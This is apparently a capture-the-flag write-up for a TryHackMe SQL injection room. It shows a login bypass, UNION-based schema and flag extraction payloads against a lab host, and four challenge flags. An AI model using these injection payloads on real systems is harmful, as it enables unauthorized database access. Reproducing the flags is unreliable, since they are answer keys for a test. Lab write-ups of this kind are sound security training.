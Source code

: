 > SQHell | SQLi

We are given a site. Investigating we got some options like Login, Register and some other options too. We can view users and posts too. We also have an interesting Terms & Condition page too! We can just play around we can find many interesting things like change user id or post id gives us result.

1. Login

Credentials : `' or true -- -`:`123` > We have our 1st flag!

# Flag 1

```
THM{FLAG1:E786483E5A53075750F1FA792E823BD2}
```

5. View Post

When we click read more we are given with an URL `http://10.10.21.43/post?id=2` which is vulnerable to UNION SQLi. 

# POC: `http://10.10.21.43/post?id='`

We can exploit it using either ORDER BY or UNION SELECT.

```
http://10.10.21.43/post?id=2%20ORDER%20BY%201
http://10.10.21.43/post?id=2%20ORDER%20BY%202
http://10.10.21.43/post?id=2%20ORDER%20BY%203
http://10.10.21.43/post?id=2%20ORDER%20BY%204
http://10.10.21.43/post?id=2%20ORDER%20BY%205 => Here we are prompted with a different output!
```

So we must have 4 columns. Let's see which column is responsive.
```
http://10.10.21.43/post?id=22%20union%20all%20select%20database(),2,3,4
http://10.10.21.43/post?id=22%20union%20all%20select%201,database(),3,4
http://10.10.21.43/post?id=22%20union%20all%20select%201,2,database(),4 => Wow we got our response! sqhell_5 
http://10.10.21.43/post?id=22%20union%20all%20select%201,2,3,database()
```


http://10.10.21.43/post?id=22%20union%20all%20select%201,2,group_concat(0x7c,schema_name,0x7c),4 from information_schema.schemata

```
 |information_schema|,|sqhell_5|
```

http://10.10.21.43/post?id=22%20union%20all%20select%201,2,group_concat(PATH,"\n"),4%20from%20information_schema.INNODB_DATAFILES

To extract complete structure!

```
,./undo_001
,./undo_002
,./sys/sys_config.ibd
,./phpmyadmin/pma__bookmark.ibd
,./phpmyadmin/pma__column_info.ibd
,./phpmyadmin/pma__history.ibd
,./phpmyadmin/pma__pdf_pages.ibd
,./phpmyadmin/pma__recent.ibd
,./phpmyadmin/pma__favorite.ibd
,./phpmyadmin/pma__table_uiprefs.ibd
,./phpmyadmin/pma__relation.ibd
,./phpmyadmin/pma__table_coords.ibd
,./phpmyadmin/pma__table_info.ibd
,./phpmyadmin/pma__tracking.ibd
,./phpmyadmin/pma__userconfig.ibd
,./phpmyadmin/pma__users.ibd
,./phpmyadmin/pma__usergroups.ibd
,./phpmyadmin/pma__navigationhiding.ibd
,./phpmyadmin/pma__savedsearches.ibd
,./phpmyadmin/pma__central_columns.ibd
,./phpmyadmin/pma__designer_settings.ibd
,./phpmyadmin/pma__export_templates.ibd
,./sqhell_1/flag.ibd
,./sqhell_1/hits.ibd
,./sqhell_2/users.ibd
,./sqhell_3/flag.ibd
,./sqhell_3/users.ibd
,./sqhell_4/flag.ibd
,./sqhell_4/posts.ibd
,./sqhell_4/users.ibd
,./sqhell_5/flag.ibd
,./sqhell_5/posts.ibd
,./sqhell_5/users.ibd
```

http://10.10.21.43/post?id=22%20union%20all%20select%201,2,flag,4%20from%20sqhell_5.flag

```
THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8} 
```

# Flag 4

## Hints: Well, dreams, they feel real while we’re in them right?

Hmm a dialogue from Inception. Moving onto users `http://10.10.21.43/user?id=1` we are provided with user id, username and posts. Let's again try union sqli payloads. Let's add null and determine the columns now!

```
http://10.10.21.43/user?id=1 union select null;-- -
http://10.10.21.43/user?id=1%20union%20select%20null,null;--%20-
http://10.10.21.43/user?id=1%20union%20select%20null,null,null;--%20- => Looks like we have 3 columns.
```

But we can't get any other payloads working. So I tried to extract table names

```
http://10.10.21.43/user?id=13%20union%20all%20select%201,2,3%20from%20information_schema.tables%20where%20table_schema=database()

This gives us the same page with user id 1!

http://10.10.21.43/user?id=13%20union%20all%20select%202,2,3%20from%20information_schema.tables%20where%20table_schema=database()

But this one doesn't lists the posts with user id 1. Looks like there is no user with id 2 which reults with no posts.
```

So let's try to add another union select statement.

`http://10.10.21.43/user?id=2%20union%20select%20%221%20union%20select%20null,null,null,null%22,null,null;--%20-`

We are reflected with the union statement in user id.

```
User ID:  1 union select null,null,null,null
Username:  
Posts:

    First Post
    Second Post
```

# Finding responsive column

```
http://10.10.21.43/user?id=2%20union%20select%20%221%20union%20select%20flag,null,null,null%20from%20flag%22,null,null%20from%20information_schema.tables%20where%20table_schema=database();--%20-
http://10.10.21.43/user?id=2%20union%20select%20%221%20union%20select%20null,flag,null,null%20from%20flag%22,null,null%20from%20information_schema.tables%20where%20table_schema=database();--%20-
```

And we are provided with flag!

```
THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}
```

2. Terms & Condition

```
We only have a few small terms:
i: We own the soul of any visitors
ii: We can't be blamed for any security breaches
iii: We log your IP address for analytics purposes => Let's try injection here!
```

So mostly for logging we use X-Forwaded-For HTTP header.It can be concluded that the IP Address is taken from the header and inserted into the “hits” table inside “sqhell_1” database. We can use time based SQL injection and use sleep, if the header is vulnerable the page will sleep (wait) before returning the page.